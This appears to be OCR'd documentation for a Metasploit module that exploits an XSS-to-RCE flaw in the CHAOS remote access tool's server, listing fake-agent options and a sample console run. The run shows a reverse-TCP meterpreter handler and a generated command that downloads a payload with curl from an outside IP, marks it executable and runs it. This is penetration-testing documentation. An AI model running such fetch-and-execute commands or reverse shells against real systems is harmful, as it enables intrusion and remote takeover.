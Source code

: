 ### JWT

JWT token from an agent. Used to emulate a compromised
host.

### AGENT

The path to an agent executable generated by CHAOS. Used to emulate a compromised host.

## Advanced Options

### AGENT_HOSTNAME

Hostname for a fake agent. Defaults to `DC01`.

### AGENT_USERNAME

Username for a fake agent. Defaults to `Administrator`.

### AGENT_USERID

User ID for a fake agent. Defaults to `Administrator`.

### AGENT_OS

OS for a fake agent. Choices are `Windows`, or `Linux`.
Defaults to `Windows`.

## Scenarios

### Docker Image

#### Agent Method

```
[*] Processing chaos.rb for ERB directives.
resource (chaos.rb)> use exploit/linux/http/chaos_rat_xss_to_rce
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
resource (chaos.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (chaos.rb)> set FETCH_SRVPORT 9090
FETCH_SRVPORT => 9090
resource (chaos.rb)> set agent malware2.exe
agent => malware2.exe
resource (chaos.rb)> set SRVHOST 111.111.10.147
SRVHOST => 111.111.10.147
resource (chaos.rb)> set SRVPORT 8888
SRVPORT => 8888
resource (chaos.rb)> set verbose true
verbose => true
msf6 exploit(linux/http/chaos_rat_xss_to_rce) > exploit

[*] Command to run on remote host: curl -so ./SPSVaaJxd http://111.111.10.147:9090/mh1dne7HFFTZ0wiiiWgmfw; chmod +x ./SPSVaaJxd; ./SPSVaaJxd &
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/chaos_rat_xss_to_rce) >
[*] Fetch handler listening on 111.111.10.147:9090
[*] HTTP server started
[*] Adding resource /mh1dne7HFFTZ0wiiiWgmfw
[*] Started reverse TCP handler on 111.111.10.147:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Chaos application found
```